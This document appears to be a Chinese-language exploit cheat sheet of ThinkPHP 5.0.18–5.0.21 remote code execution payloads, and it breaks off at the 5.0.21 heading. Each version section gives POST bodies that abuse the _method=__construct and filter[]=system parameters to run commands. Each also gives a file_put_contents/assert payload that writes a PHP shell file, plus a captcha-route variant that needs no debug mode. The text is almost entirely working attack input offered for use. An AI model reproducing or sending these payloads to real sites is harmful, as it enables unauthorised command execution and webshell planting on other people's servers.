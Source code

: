 ## 5.0.18
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
## 5.0.19
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
## 5.0.20
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
## 5.0.21
默认debug=false，需要开启debug
命令执行